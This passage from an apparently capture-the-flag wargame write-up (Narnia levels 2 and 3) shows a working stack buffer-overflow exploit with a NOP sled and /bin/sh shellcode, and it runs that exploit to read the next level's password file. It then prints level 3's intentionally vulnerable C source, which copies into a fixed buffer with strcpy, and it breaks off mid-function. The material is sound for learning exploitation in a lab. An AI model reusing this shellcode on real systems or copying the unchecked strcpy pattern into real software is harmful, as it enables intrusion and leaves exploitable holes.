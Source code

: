 We see our payload start at `0xffffd828` with the last 4 bytes at `0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a [nop sled](https://en.wikipedia.org/wiki/NOP_slide) to adjust for
the memory offset introduced by `gdb`. Then set the `EIP` to somewhere in the middle
of the sled

{{< highlight console >}}
narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
[password]
{{< / highlight >}}

## Level 03 ##

{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h> 

int main(int argc, char **argv){
 
        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];
 
        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }
 
        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }
 
        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 